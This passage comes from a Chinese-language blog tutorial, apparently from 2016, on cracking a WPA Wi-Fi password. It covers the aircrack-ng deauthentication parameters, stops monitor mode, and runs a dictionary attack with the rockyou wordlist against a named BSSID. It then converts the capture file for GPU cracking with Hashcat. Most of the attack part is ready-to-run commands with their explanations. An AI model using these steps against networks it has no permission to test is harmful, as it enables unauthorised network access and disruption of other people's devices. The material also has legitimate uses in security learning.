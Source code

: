 参数解释：

* -0表示发起deauthentication攻击
* -a指定无线路由器BSSID
* -c指定强制断开的设备

![破解wifi密码]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-21 19-06-35.png)

如果成功：

![破解wifi密码]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-21 19-06-55.png)

按Ctrl-C结束抓包。

我们已经得到了想要的握手包了，可以结束无线网卡的监控模式了：

{% highlight shell %}
# airmon-ng stop wlan0mon
{% endhighlight %}

![破解wifi密码]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-21 19-09-20.png)

### 6) 开始破解密码

{% highlight shell %}
# aircrack-ng -a2 -b C8:3A:35:30:3E:C8 -w /usr/share/wordlists/rockyou.txt ~/*.cap
{% endhighlight %}

参数解释：

* -a2代表WPA的握手包
* -b指定要破解的wifi BSSID。
* -w指定字典文件
* 最后是抓取的包

![破解wifi密码]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-21 20-06-53.png)

### 可选）使用显卡的运算能力

如果你有一个强大的GPU，为什么不使用GPU跑字典呢？

[Hashcat](http://hashcat.net)可以借助GPU的运算力破解各种不同算法的hash值。

下载时要注意选择正确的显卡类型（AMD、NVidia）。Kali Linux自带这个工具。

在破解cap文件之前，要把它转换为hccap文件：

{% highlight shell %}
# aircrack-ng file.cap -J out.hccap
{% endhighlight %}
